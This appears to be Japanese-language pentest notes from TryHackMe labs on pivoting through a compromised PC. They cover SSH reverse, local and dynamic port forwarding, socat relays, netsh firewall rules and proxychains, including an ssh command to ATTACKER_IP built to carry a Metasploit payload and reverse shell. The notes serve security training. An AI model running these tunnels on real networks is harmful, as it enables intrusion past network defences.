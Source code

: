 # トンネリング

## 準備

```shell
# kali上にトンネル専用のユーザー作成、パスワード設定
sudo useradd -m -s /usr/sbin/nologin tunnel
sudo passwd tunnel
sudo nano /etc/ssh/sshd_config
```

ポートフォワード専用設定

```text
Match User tunnel
    PermitOpen any
    ForceCommand echo 'This account can only be used for port forwarding'
    AllowTcpForwarding yes
    X11Forwarding no
    PermitTTY no
```

```shell
# SSH リスタート
sudo systemctl restart ssh
```

## RDP ポート転送

kali からはターゲットの RDP にアクセスできないが、侵害済の PC からはアクセスでき、かつ侵害済 PC から kali への SSH 接続ができるケース。

```shell
# 侵害済のPCで実行。<kali-port>:<target-ip>:<target-port>
ssh tunneluser@<kali-ip> -R 3389:<target-ip>:3389 -N
```

kali 上でローカルに向けて RDP 接続すると、ターゲットに転送される

```shell
xfreerdp /v:127.0.0.1 /u:MyUser /p:MyPassword
```

同様に、このようにすると HTTP トンネルになる

```shell
ssh -R 8080:172.20.0.120:80 user@IP1
```

## ローカルポート転送

ターゲットから kali に接続できないが、kali 上のサービスに接続させたいケース。

```shell
# 侵害済のPCで実行
ssh tunneluser@<kali-ip> -L *:80:127.0.0.1:80 -N

# FWルール変更（要管理者）
netsh advfirewall firewall add rule name="Open Port 80" dir=in action=allow protocol=TCP localport=80
```

ターゲットから次のように kali のサービスに接続できる

```text
http://<侵害済PCのIP>:80
```

## 複合トンネリング

```shell
ssh tunneluser@ATTACKER_IP -R 8888:thmdc.za.tryhackme.com:80 -L *:6666:127.0.0.1:6666 -L *:7878:127.0.0.1:7878 -N
```

- kali のローカル 8888 に HTTP リクエストすると、thmdc.za.tryhackme.com:80 に転送される
- 侵害済 PC の 6666 ポートでのリッスンは、kali の 6666 ポートに転送される
- 侵害済 PC の 7878 ポートでのリッスンは、kali の 7878 ポートに転送される

metasploit のエクスプロイトを想定。Web サーバーに HTTP リクエスト、Web サーバーからペイロードのリクエスト、Web サーバーからリバースシェルの接続。

## socat

### RDP 転送

```shell
# kali 上ではなく、侵害済 PC 上にポートを開く
socat TCP4-LISTEN:3389,fork TCP4:<target-ip>:3389

# FWルールが必要
netsh advfirewall firewall add rule name="Open Port 3389" dir=in action=allow protocol=TCP localport=3389
```

### HTTP 転送

```shell
socat TCP4-LISTEN:80,fork TCP4:<kali-ip>:80
```

## 動的ポート転送

プロキシチェーンを使って、任意のコマンドでポート転送する。nmap 等は正しく動作しない可能性がある。

```shell
# 侵害済PC
ssh tunneluser@1.1.1.1 -R 9050 -N

# kali側
proxychains curl http://pxeboot.za.tryhackme.com
```

/etc/proxychains4.conf で指定されているポートと一致させる必要がある

```text
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks4  127.0.0.1 9050
```

